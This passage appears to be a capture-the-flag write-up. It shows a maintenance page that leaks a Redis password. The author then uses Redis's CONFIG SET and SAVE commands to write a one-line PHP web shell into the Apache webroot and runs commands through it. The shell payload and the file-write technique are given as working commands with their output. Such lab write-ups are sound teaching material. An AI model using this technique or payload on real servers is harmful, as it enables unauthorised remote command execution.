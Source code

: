 Following the instructions seems like a good idea:
```
player@dce68068f086:~$ curl 'http://localhost/maintenance.php'

ERROR: 'cmd' argument required (use commas to separate commands); eg:
curl http://localhost/maintenance.php?cmd=help
curl http://localhost/maintenance.php?cmd=mget,example1
```

Using this command to try get the authentication password succeeds:
```
player@dce68068f086:~$ curl 'http://localhost/maintenance.php?cmd=config,get,require*'
Running: redis-cli --raw -a '<password censored>' 'config' 'get' 'require*'

requirepass
R3disp@ss
```

For ease of use, I can now start my own CLI and not have to use the web interface using the command `redis-cli -a 'R3disp@ss'`.

According to [this page on Redis manipulation](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis), I can abuse the "save" functionality of Redis to create a PHP shell in the webroot. I set the directory for the save to `/var/www/html`, the default for Apache2, and the file to `shell.php`, as follows:
```
player@dce68068f086:~$ redis-cli -a 'R3disp@ss'
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
127.0.0.1:6379> config set dir /var/www/html/
OK
127.0.0.1:6379> config set dbfilename shell.php
OK
127.0.0.1:6379> set reverse "<?php echo(system($_REQUEST['cmd'])); ?>"
OK
127.0.0.1:6379> save
OK
127.0.0.1:6379> exit
player@dce68068f086:~$ curl 'http://localhost/shell.php?cmd=ls' --output -
REDIS0009�      redis-ver5.0.3�
�edis-bits�@�ctime�F��_used-mem°
 aof-preamble��� reverse(index.php
maintenance.php
shell.php
shell.php�:Bq��* �player@dce68068f086:~$ 
```

Passing our new shell the command `cat index.php`, we can see the contents:
```
player@dce68068f086:~$ curl 'http://localhost/shell.php?cmd=cat%20index.php' --output -
REDIS0009�      redis-ver5.0.3�
�edis-bits�@�ctime�F��_used-mem°
 aof-preamble��� reverse(<?php

# We found the bug!!
#
#         \   /
#         .\-/.
#     /\ ()   ()
#       \/~---~\.-~^-.
# .-~^-./   |   \---.
#      {    |    }   \
#    .-~\   |   /~-.
#   /    \  A  /    \
#         \/ \/
# 

```